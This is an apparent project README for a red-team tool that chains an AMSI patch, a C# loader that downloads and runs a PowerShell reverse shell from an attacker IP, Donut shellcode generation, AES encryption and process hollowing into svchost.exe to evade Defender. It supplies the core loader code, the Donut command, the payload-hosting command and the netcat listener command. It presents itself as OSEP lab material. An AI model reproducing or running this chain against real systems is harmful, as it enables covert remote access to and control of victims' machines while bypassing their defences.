 # Stealth-Shellcode-Runner

# 🔒 Advanced Shellcode Execution via Process Hollowing and AES Encryption

This project demonstrates a stealthy approach to executing an AES-encrypted PowerShell reverse shell using a custom C# loader, `donut` for shellcode generation, and a custom runner using **partial indirect syscalls** and **process hollowing** techniques.

---

## 🧩 Step 1 - Build the PowerShell Loader (`Project_Stealth.cs`)

Create a minimal C# console project and include the following logic to:

- Patch AMSI via `.NET Reflection`
- Download and execute a PowerShell payload (e.g., reverse shell)
- Use base64 obfuscation for script names

📌 **Note:** You must manually add a reference to:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

### Core logic:
```csharp
string attackerIP = "192.168.1.94";
PatchAMSI();
string psUrl = $"http://{attackerIP}/shell.ps1";
string psScript = GetStringFromUrl(psUrl);
ExecutePowerShell(psScript);
```

---

## 🧪 Step 2 - Generate Shellcode with Donut

Use [Donut](https://github.com/TheWover/donut) to convert the compiled loader into shellcode:

```bash
.\donut.exe -i "Project_Stealth.exe" -a 2 -f 1 -o shellcode.bin
```

- `-a 2`: Target .NET assemblies
- `-f 1`: Run the .NET assembly as unmanaged shellcode

---

## 🔐 Step 3 - AES Encrypt the Shellcode

Use the Python script to AES-encrypt the generated shellcode.

Paste the generated arrays into your Process Hollowing runner.

---

## 🧠 Step 4 - Execute with Process Hollowing + Partial Indirect Syscalls

Use the included `ShellCode_Runner.cs` script to:

- Create a suspended process (`svchost.exe`)
- Allocate RWX memory via partially indirect syscall
- Decrypt and write the AES-encrypted shellcode
- Change protection and execute via `NtCreateThreadEx`

> Note: Only `NtAllocateVirtualMemory` uses an indirect syscall via a memory stub. Other syscalls (`NtWriteVirtualMemory`, `NtProtectVirtualMemory`, `NtCreateThreadEx`) are still invoked via direct P/Invoke.

📌 Replace the following placeholders with your actual AES-encrypted shellcode and keys:

```csharp
byte[] encryptedShellcode = new byte[] { ... };
byte[] aesKey = new byte[] { ... };
byte[] aesIV = new byte[] { ... };
```

---

## 🖥️ Hosting the Reverse Shell Payload

The PowerShell reverse shell is hosted in a file named `shell.ps1`.


Then serve the file using Python's HTTP server from the directory containing `shell.ps1`:

```bash
python3 -m http.server 80
```

---

## 📡 Setting Up the Listener

Use `rlwrap` with `netcat` to handle a fully interactive reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## ✅ Final Outcome

- AMSI is silently patched
- PowerShell payload is downloaded and executed in memory
- Shellcode is decrypted and injected into a remote process
- Connection established with full interactivity
- Tested and working in OSEP lab environments with Defender enabled

---

**Built for OSEP training and red team lab use. Not intended for real-world offensive operations without proper authorization.**
